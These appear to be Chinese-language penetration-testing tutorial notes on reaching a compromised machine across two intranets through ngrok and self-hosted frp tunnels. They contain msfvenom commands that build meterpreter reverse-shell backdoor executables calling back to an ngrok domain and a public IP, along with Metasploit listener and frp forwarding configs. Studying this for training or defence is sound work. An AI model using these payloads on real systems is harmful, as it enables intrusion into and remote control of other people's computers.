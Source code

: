 #### 工具

* nps
* frp *
* ngrok *
* reGeorg *
* sockscap64
* earthworm(停止更新)
* proxifier
* proxychairs

#### 基础知识

* 内网地址是私有网段，10.10 192.168.  172.16
* 两个内网要实现通信，用代理来解决
* 控制端连接被控（正向） 被控连接控制端（反向）

#### 案例一 内网穿透Ngrok测试演示-两个内网通讯上线

肉鸡在A内网，攻击机在B内网，两者实现通信

1. ngrok使用（需要花钱稳定）

注册-购买-填写-确认http地址

```shell
./sunny clientid ngrok地址
# http://zzzzssw.free.idcfengye.com -> 192.168.216.165:1234
# 确保状态为online
# 用msfvenom生成后门
msfvenom -p windows/meterpreter/reverse_http lhost=xiaodisec.free.idcengye.com lport=80 -f exe -o test.exe  # 这个端口对应的是执行test.exe文件的服务器的端口
# 配置后门的监听状态
use exploit/multi/handler
set payload windows/meterpreter/reverse_http  # 这里的http协议与ngrok设置的协议一致，一般用的是tcp协议
# 监听的是本地端口和ip
set lhost 192.168.76.132(kali地址)
set lport 4444 # 这个端口是kali监听的端口，这个端口和在ngrok设置的端口要一致
exploit

# 然后再运行对方的test.exe文件，相当于对方来连接本机，属于反向代理
```

2. 内网穿透Frp自建跳板测试-两个内网通讯上线

自行搭建，方便修改，成本低，使用多样化（一定不要用阿里云，这个需要修改安全组配置出入口）

```powershell
# 需要自己的服务器
1.服务端-下载-解压-修改-启动
服务器修改配置文件 frps.ini：
[common]
bind_port = 6677
启动服务端：
./frps -c ./frps.ini
2.控制端-下载-解压-修改-启动
控制端修改配置文件 frpc.ini：
[common]
server_addr = 你的云主机 ip
server_port = 6677 #frpc 工作端口，必须和上面 frps 保持一致
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 5555 #转发给本机的 5555
remote_port = 6000 #服务端用 6000 端口转发给本机
启动客户端：
./frpc -c ./frpc.ini
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.160.211 lport=6000 -f exe -o frp.exe
```